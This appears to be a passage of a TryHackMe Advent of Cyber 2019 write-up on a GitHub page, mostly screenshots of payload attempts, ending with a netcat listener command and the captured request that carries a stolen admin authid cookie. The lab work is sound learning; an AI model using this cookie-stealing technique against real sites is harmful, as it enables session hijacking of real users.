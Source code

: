 
<br>

<h3 align="center">Logged in and got the following ...<br>
                 <img width="900px" src="https://github.com/user-attachments/assets/1ca30a0f-1f4c-4fc2-9dec-abed1ad3d7bb"> </h3>


<br>

<h3 align="center">Tried to use this payload an got an error message.<br>
                 <img width="900px" src="https://github.com/user-attachments/assets/24d4660a-9c0b-4f2d-84d5-ab1255b50859">
                 <img width="900px" src="https://github.com/user-attachments/assets/219747d7-fe41-421c-9028-518c304c1ebc9"> </h3>

<h3 align="center">With the following payload things worked!!!.<br>
                 <img width="900px" src="https://github.com/user-attachments/assets/5ddae130-c64b-485a-a030-da3ab7ca2fff">
                 <img width="900px" src="https://github.com/user-attachments/assets/2d0b24ea-3686-4802-b12d-3e48cb3b02e4">
                 <img width="900px" src="https://github.com/user-attachments/assets/ea7e4a82-7c3d-4758-b6f2-e947c720e276"></h3>

<br>

<pre><code>$root@[AttackBox]:~/AdventOfCyber2019# nc -lvnp 4242
Listening on 0.0.0.0 4242
Connection received on [Target] 47950
GET /page?param=authid=2564799a4e6689972f6d9e1c7b406f87065cbf65 HTTP/1.1
Host: [AttackBox]:4242
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3844.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://localhost:3000/admin
Accept-Encoding: gzip, deflate

</code></pre>



<h2>Task Complete<a id='2'></a></h2>
<p>Keep learning, keep growing!<br>

<h3 align="center"> <img width="900px" src="https://github.com/user-attachments/assets/6afbfd0b-2856-4388-b18d-aa23d9881677"> </h3>


<h2>My Journey<a id='3'></a></h2>
<p></p>Following I share the status of my journey in TryHackMe.</p>

<h3 align="center"> <img width="900px" src="https://github.com/user-attachments/assets/f5495115-3f1d-4749-bceb-fc42716cb2a8"> </h3>


<p style="text-align: center;">Thank you for coming. Hope to learn together again!!</p>
